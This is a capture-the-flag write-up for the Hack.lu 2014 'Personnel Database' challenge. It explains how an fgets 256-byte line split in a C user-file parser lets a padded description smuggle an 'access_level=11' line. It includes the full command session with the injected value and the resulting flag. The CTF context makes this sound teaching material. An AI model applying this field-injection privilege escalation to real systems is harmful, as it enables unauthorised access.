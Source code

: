 ```yaml
---
layout: post
title: "Personnel Database"
date: 2014-10-23
ctf: Hack.lu 2014
author: Piotr Kordy
---
```


*Category:* Exploiting

*Points:* 150

*Author:* TheJH

*Description:*

Lots of criminals in this area work for one big boss, but we have been unable
to determine who he is. We know that their organization has one central
personnel database that might also contain information about their boss,
whose username is simply “boss”. However, when you register in their system,
you only get access level zero, which is not enough for reading data about
the boss - that guy is level 10. Do you think you can get around their
protections?

link: [personnel_database_server_67e4ead6aeb111cc19de03d1f3d15fab.c][1]

`nc wildwildweb.fluxfingers.net 1410`

Note: The users dir will be wiped every 5 minutes.


Write-up
--------

We are given a source code of the program running on the server. We can run the
following commands:

 - `whoami` - prints user name
 - `user` 'username' - set user name for login
 - `pass` 'password' - provides password and logins us
 - `register` 'username:password' - registers new user
 - `set_description` *description' - registers new user
 - `logout` - logs us out and writes changes to the file
 - `whois` 'username' - prints info about user - we must have higher acces rights than the user
 - `levelup` 'username' - increases the access level for the user, but we must have higher access level.

Each user have user name, password, access level and descripiton. Usernames are
sanitized to match [a-zA-Z0-9_]{1,20}. The data about each user is stored in
separate file in `users` directory. The interesting part is how the data about
the user is read from the file:

{% highlight c %}
struct userdata *read_userfile(char *user) {
  struct userdata *res = calloc(1, sizeof(*res));
  if (res == NULL) return NULL;
  int fd = open_userfile(user, O_RDONLY);
  if (fd == -1) return NULL;
  FILE *f = fdopen(fd, "r");
  if (f == NULL) { close(fd); return NULL; }
  char line[256];
  while (fgets(line, sizeof(line), f)) {
    rtrim(line);
    char *key = line;
    char *eqsign = strchr(line, '=');
    if (!eqsign) continue;
    *eqsign = '\0';
    char *value = eqsign+1;

    if (!strcmp(key, "hash")) res->hash = atoll(value);
    else if (!strcmp(key, "access_level")) res->access_level = atoi(value);
    else if (!strcmp(key, "description")) strcpy(res->description, value);
    else printf("fatal error: bad key \"%s\" in config, aborting\n", key), exit(1);
  }
  return res;
}
{% endhighlight %}

Each line is parsed separatly, but it can be at
most 256 bytes (size of the buffer used). So line longer than 256 bytes will be
read as two separate lines. Here is the example file with user's data:

	hash=770370358
	access_level=0
	description=some description with = sign

The idea is to submit line with proper length that will be interpreted as two
lines. In this way we can set our priviliges to high value. 

Here is the list of commands that gives us the flag:

	nc wildwildweb.fluxfingers.net 1410
	> register a:password
	user created successfully
	> set_description ***************************************************************************************************************************************************************************************************************************************************access_level=11
	description set
	> logout
	Uh, who are you again? I have forgotten.
	> user a
	username accepted, please provide password
	> pass password
	login ok
	> whois boss
	user	boss
	level	10
	descr	"flag{this_is_why_gets_is_better_than_fgets}"


[1]: http://afnom.net/assets/2014/personnel_database_server_67e4ead6aeb111cc19de03d1f3d15fab.c      "file"

